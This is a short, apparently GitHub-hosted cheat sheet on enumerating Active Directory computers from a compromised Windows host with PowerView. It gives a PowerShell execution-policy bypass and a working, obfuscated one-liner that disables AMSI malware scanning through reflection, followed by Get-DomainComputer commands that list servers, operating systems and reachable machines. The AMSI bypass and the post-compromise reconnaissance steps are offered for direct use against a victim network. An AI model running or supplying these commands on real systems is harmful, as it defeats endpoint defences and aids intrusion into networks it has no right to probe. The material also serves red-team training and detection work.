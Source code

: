 # Domain Computers and Servers Enumeration


## PowerView
Import PowerView to the compromised host and run the following commands


`powershell -ep bypass`

Bypass AMSI with this PowerShell command.

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Import the script

`. .\powerview.ps1`


Enumerate servers in the network:

`Get-DomainComputer`

Enumerate operating systems:

`Get-DomainComputer -OperatingSystem "*server 2016*"`

Check host's connection to the computers in the network:

`Get-DomainComputer -Ping`

Enumerate a specific machine by DNS host name:

`Get-DomainComputer  -Name fileshare.domain.local`

`Get-DomainComputer  -Name web.domain.local`

